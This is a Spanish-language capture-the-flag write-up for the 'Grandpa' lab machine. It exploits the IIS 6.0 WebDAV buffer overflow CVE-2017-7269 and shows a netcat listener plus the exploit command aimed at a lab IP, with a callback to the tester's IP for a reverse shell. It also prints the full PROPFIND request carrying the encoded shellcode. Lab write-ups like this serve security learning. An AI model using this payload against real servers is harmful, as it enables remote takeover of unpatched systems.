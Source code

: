 Esto es lo que vemos al acceder a la `web`

![](/assets/img/Grandpa/image_1.png)
## Web Exploitation

La web tiene dispone del servicio `webdav` y el `IIS` tiene la `versión 6.0` por lo tanto es vulnerable a `Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow` el `CVE` es `2017-7269`. El exploit usado es [https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269), antes de ejecutar el exploit nos ponemos en escucha con netcat por el puerto 4444

```
# nc -nlvp 4444
```

Ejecutamos el exploit

```
# python2 iis6_exploit.py 10.129.95.233 80 10.10.16.16 4444
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃̀翾Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
```
